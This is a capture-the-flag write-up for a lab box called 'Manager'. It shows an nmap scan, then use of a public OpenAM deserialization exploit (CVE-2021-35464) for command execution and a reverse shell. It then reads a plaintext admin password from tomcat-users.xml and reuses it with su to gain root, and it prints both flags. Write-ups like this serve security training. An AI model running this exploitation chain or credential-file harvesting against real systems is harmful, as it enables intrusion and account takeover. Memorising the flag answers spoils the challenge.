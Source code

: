 # Manager


By doing a quick scan we can notice an Apache Tomcat on port 8080.
```
Nmap scan report for 10.129.172.131
[...]
Host is up (0.19s latency).                                                                                                                                              
8080/tcp  open     http        Apache Tomcat 9.0.48
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Did not follow redirect to http://manager.htb:8080/openam/
```

![Openam login portal](img/openam_portal.png "Openam login portal")

This version of OpenAM is vulnerable to a deserialization attack.
The exploit can be found [here](https://www.exploit-db.com/exploits/50131).

```
Mon Jul 26 22:31:45 wil@pwn:~/htb/business_ctf/boxes/manager$ python3 CVE-2021-35464.py -c whoami
[?] Please enter the URL [http://192.168.0.100:7080/openam] : http://manager.htb:8080/openam/
[!] Verifying reachability of http://manager.htb:8080/openam/
[+] Endpoint http://manager.htb:8080/openam/ reachable
[!] Finding correct OpenAM endpoint
[+] Found potential vulnerable endpoint: http://manager.htb:8080/openam/oauth2/..;/ccversion/Version
[+] !SUCCESS! Host http://manager.htb:8080/openam/ is vulnerable to CVE-2021-35464
[+] Running command "whoami" now:

tomcat
```
By running this exploit can we establish a revshell to grab the user flag:

![Getting a reverse shell](img/revshell.png "Getting a reverse shell")

```
tomcat@manager:~$ cat /opt/tomcat/user.txt
cat /opt/tomcat/user.txt
HTB{1n53cur3_d353r14l1z4710n_c4n_b3_v3ry_d4n63r0u5}
```

When digging into Tomcat configuration we noticed a password in the tomcat-users.xml file.
```
tomcat@manager:~/conf$ cat /opt/tomcat/conf/tomcat-users.xml
[...]
 <role rolename="admin-gui"/>
  <user username="admin" password="BXJ^JA3y4!nE8x9q" roles="admin-gui"/>
```

This password is actually the root password. We can complete the boxe by running su and grab the root flag.
```
tomcat@manager:~/conf$ su
Password: BXJ^JA3y4!nE8x9q
root@manager:/opt/tomcat/conf# id
uid=0(root) gid=0(root) groups=0(root)
root@manager:/opt/tomcat/conf# cat /root/root.txt
cat /root/root.txt
HTB{p455w0rd_r3us3_c4n_l34d_t0_syst3m_4bus3}
```